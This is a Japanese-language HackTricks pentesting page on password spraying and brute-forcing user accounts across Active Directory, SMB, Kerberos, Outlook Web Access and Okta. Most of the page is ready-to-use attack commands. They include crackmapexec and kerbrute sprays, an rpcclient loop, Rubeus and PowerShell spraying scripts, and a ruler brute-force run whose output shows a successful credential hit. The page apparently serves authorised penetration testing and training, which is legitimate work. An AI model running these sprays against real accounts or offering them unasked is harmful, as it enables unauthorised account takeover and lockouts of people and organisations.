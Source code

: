# パスワードスプレイング / ブルートフォース

{{#include ../../banners/hacktricks-training.md}}

## **パスワードスプレイング**

いくつかの**有効なユーザー名**を見つけたら、発見した各ユーザーに対して最も**一般的なパスワード**を試すことができます（環境のパスワードポリシーを考慮してください）。\
**デフォルト**では、**最小****パスワード****長**は**7**です。

一般的なユーザー名のリストも役立つかもしれません: [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

いくつかの間違ったパスワードを試すと**アカウントがロックアウトされる可能性があることに注意してください**（デフォルトでは10回以上）。

### パスワードポリシーを取得する

ユーザーの資格情報やドメインユーザーとしてのシェルがある場合は、**次のコマンドでパスワードポリシーを取得できます**:
```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10;
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```
### Linuxからの悪用（またはすべて）

- **crackmapexec**を使用して：
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
- [**kerbrute**](https://github.com/ropnop/kerbrute)（Go）を使用して
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
- [**スプレー**](https://github.com/Greenwolf/Spray) _**(ロックアウトを避けるために試行回数を指定できます):**_
```bash
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
- [**kerbrute**](https://github.com/TarlogicSecurity/kerbrute)（python）を使用 - 推奨されません。時々機能しません。
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```
- **Metasploit**の`scanner/smb/smb_login`モジュールを使用して:

![](<../../images/image (745).png>)

- **rpcclient**を使用して:
```bash
# https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/
for u in $(cat users.txt); do
rpcclient -U "$u%Welcome1" -c "getusername;quit" 10.10.10.10 | grep Authority;
done
```
#### Windowsから

- [Rubeus](https://github.com/Zer1t0/Rubeus)のブルートモジュールを使用したバージョン:
```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
- [**Invoke-DomainPasswordSpray**](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)（デフォルトでドメインからユーザーを生成し、ドメインからパスワードポリシーを取得し、それに応じて試行回数を制限します）：
```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
- [**Invoke-SprayEmptyPassword.ps1**](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1) を使用して
```
Invoke-SprayEmptyPassword
```
## ブルートフォース
```bash
legba kerberos --target 127.0.0.1 --username admin --password wordlists/passwords.txt --kerberos-realm example.org
```
## Outlook Web Access

Outlookに対するp**assword spraying**のための複数のツールがあります。

- [MSF Owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)
- [MSF Owa_ews_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login/)
- [Ruler](https://github.com/sensepost/ruler) (信頼性あり!)
- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Powershell)
- [MailSniper](https://github.com/dafthack/MailSniper) (Powershell)

これらのツールを使用するには、ユーザーリストとパスワード / 小さなパスワードリストが必要です。
```bash
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
[x] Failed: larsson:Summer2020
[x] Failed: cube0x0:Summer2020
[x] Failed: a.admin:Summer2020
[x] Failed: c.cube:Summer2020
[+] Success: s.svensson:Summer2020
```
## Google

- [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)

## Okta

- [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)
- [https://github.com/Rhynorater/Okta-Password-Sprayer](https://github.com/Rhynorater/Okta-Password-Sprayer)
- [https://github.com/knavesec/CredMaster](https://github.com/knavesec/CredMaster)

## 参考文献

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)
- [https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell](https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell)
- [www.blackhillsinfosec.com/?p=5296](https://www.blackhillsinfosec.com/?p=5296)
- [https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying](https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying)


{{#include ../../banners/hacktricks-training.md}}
